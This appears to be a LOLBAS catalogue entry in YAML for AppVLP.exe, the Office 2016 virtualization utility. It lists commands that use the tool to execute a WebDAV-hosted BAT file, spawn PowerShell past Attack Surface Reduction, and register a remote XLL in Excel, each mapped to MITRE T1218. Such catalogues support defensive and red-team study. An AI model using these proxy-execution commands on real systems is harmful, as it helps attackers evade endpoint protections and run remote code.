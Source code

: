 ```yaml
---
Name: Appvlp.exe
Description: Application Virtualization Utility Included with Microsoft Office 2016 
Author: ''
Created: '2018-05-25'
Commands:
  - Command: AppVLP.exe \\webdav\calc.bat
    Usecase: Execution of BAT file hosted on Webdav server.
    Description: Executes calc.bat through AppVLP.exe
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 10 w/Office 2016
  - Command: AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe','', '', 'open', 1)"
    Usecase: Local execution of process bypassing Attack Surface Reduction (ASR).
    Description: Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 10 w/Office 2016
  - Command: AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
    Usecase: Local execution of process bypassing Attack Surface Reduction (ASR).
    Description: Executes powershell.exe as a subprocess of AppVLP.exe and run the respective PS command.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows 10 w/Office 2016
Full_Path:
  - Path: C:\Program Files\Microsoft Office\root\client\appvlp.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\client\appvlp.exe
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://github.com/MoooKitty/Code-Execution
  - Link: https://twitter.com/moo_hax/status/892388990686347264
  - Link: https://enigma0x3.net/2018/06/11/the-tale-of-settingcontent-ms-files/
  - Link: https://securityboulevard.com/2018/07/attackers-test-new-document-attack-vector-that-slips-past-office-defenses/
Acknowledgement:
  - Person: fab
    Handle: '@0rbz_'
  - Person: Will
    Handle: '@moo_hax'
  - Person: Matt Wilson
    Handle: '@enigma0x3'
---
```

